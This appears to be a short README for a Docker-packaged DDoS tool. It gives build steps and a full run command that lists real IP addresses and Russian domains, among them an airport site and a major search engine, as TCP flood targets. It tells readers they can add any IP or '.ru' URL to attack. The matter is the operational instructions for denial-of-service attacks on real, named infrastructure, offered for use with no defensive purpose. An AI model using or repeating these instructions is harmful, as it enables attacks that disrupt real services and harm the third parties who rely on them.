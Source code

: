 # DDOS
After successful downloading you need to install docker desktop.
https://www.docker.com/products/docker-desktop
Open MainApp folder in terminal and run three commands:
" dotnet publish -c Release",
"docker build -t ddosimage . " and
"docker run -it --rm  ddosimage  3 80.68.247.26 www.dme.ru yandex.ru 195.218.193.151 77.51.53.74"

Last row after "ddosimage"  you can put all ip address on which you want to make TCP ddos attack or url
PS: url pust be with domain ".ru" becouse program can filter only url with ".ru" otherwise in will make an excaption.


Слава Україні!!!!
